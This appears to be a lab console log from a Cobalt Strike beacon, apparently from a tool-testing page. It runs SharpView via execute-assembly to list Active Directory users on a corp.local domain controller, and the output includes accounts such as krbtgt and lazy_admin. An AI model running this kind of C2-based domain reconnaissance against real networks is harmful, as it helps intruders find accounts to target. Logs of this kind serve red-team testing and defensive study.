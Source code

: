 ```shell
[10/06 16:05:01] beacon> execute-assembly /root/tooltesting/SharpView.exe Get-DomainUser -Properties name, MemberOf | fl
[10/06 16:06:12] [*] Tasked beacon to run .NET program: SharpView.exe Get-DomainUser -Properties name, MemberOf | fl
[10/06 16:06:14] [+] host called home, sent: 843911 bytes
[10/06 16:06:17] [+] received output:
get-domain


[10/06 16:06:23] [+] received output:
[Get-DomainSearcher] search base: LDAP://DC01.corp.local/DC=corp,DC=local

[Get-DomainUser] filter string: (&(samAccountType=805306368))

name                           : Administrator



name                           : Guest



name                           : DefaultAccount



name                           : krbtgt



name                           : bob



name                           : joe



name                           : bill



name                           : salvador



name                           : lazy_admin



name                           : vincent.delpy



name                           : iamtheadministrator



name                           : justalocaladmin



name                           : Gracie Stephenson
```